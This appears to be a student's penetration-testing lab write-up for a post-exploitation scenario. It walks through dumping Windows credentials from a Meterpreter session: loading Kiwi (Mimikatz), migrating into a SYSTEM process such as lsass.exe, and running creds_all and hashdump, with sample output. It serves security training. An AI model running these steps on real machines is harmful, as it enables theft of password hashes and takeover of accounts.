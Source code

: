 # Scenario 4 - Credential Dumping with Meterpreter

## Objective

Dump credentials from a compromised Windows machine using the Meterpreter session in Kali Linux.

---

## Tools Used

* **Kali Linux**
* **Metasploit Framework**
* **Meterpreter**
* **Mimikatz (Kiwi extension)**

---

## Steps Followed

### 🔐 Step 1: Establish Meterpreter Session

Successfully exploited a vulnerability and obtained a Meterpreter shell on the target Windows system.

```bash
msf6 exploit(...) > exploit
[*] Meterpreter session 1 opened
```

---

### 🔍 Step 2: Load Kiwi (Mimikatz)

```bash
meterpreter > load kiwi
```

Output:

```
[+] kiwi extension loaded successfully
```

---

### ⚠️ Step 3: Attempt to Dump Credentials

```bash
meterpreter > creds_all
```

Output:

```
[!] Not running as SYSTEM, execution may fail
```

---

### 🧠 Step 4: Identify SYSTEM-owned Process

```bash
meterpreter > ps
```

Identified `lsass.exe` or `services.exe` running as `NT AUTHORITY\SYSTEM`.

---

### 🔁 Step 5: Migrate to SYSTEM Process

```bash
meterpreter > migrate <PID>
```

Output:

```
[*] Migration completed successfully.
```

---

### ✅ Step 6: Confirm SYSTEM Privileges

```bash
meterpreter > getuid
```

Expected:

```
Server username: NT AUTHORITY\SYSTEM
```

---

### 💥 Step 7: Dump Credentials Again

```bash
meterpreter > creds_all
```

OR

```bash
meterpreter > run post/windows/gather/hashdump
```

Output:

```
[+] Admin:500:NTLM-HASH-HERE:::
[+] User:1001:NTLM-HASH-HERE:::
```

---

## Notes

* Direct download of mimikatz.exe failed due to network or HTTP issue.
* Kiwi was used as a reliable in-memory alternative to execute mimikatz functionalities.
* SYSTEM-level access is **mandatory** for dumping credentials from LSASS or registry.

---

## Screenshots Included

* PowerShell and Invoke-WebRequest failed attempt
* Meterpreter migration
* Credential dumping success after SYSTEM migration

---

## Conclusion

Credential dumping can fail if Meterpreter does not have SYSTEM-level privileges. Always migrate into a SYSTEM-owned process before executing sensitive post-exploitation tasks like `hashdump` or `kiwi` modules.

---

**Submitted by:** Dhruvik Vaghasiya
**Scenario:** 4 - Post Exploitation: Credential Dumping
